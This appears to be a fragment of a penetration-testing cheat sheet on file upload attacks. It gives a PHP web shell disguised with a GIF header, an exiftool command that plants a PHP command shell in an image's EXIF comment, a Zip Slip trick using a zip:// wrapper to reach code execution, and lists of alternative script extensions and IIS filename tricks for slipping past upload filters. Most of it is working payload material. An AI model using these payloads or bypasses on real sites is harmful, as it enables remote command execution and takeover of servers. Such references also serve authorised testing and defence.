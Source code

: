             ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```

    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```

---
# File Upload
### Defaults extensions
* PHP Server
```html
.php
.php3
.php4
.php5
.php7

# Less known PHP extensions
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc

```

* ASP Server
```html
.asp
.aspx
.config
.cer and .asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap

```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`
* Erlang Yaws Web Server: `.yaws`
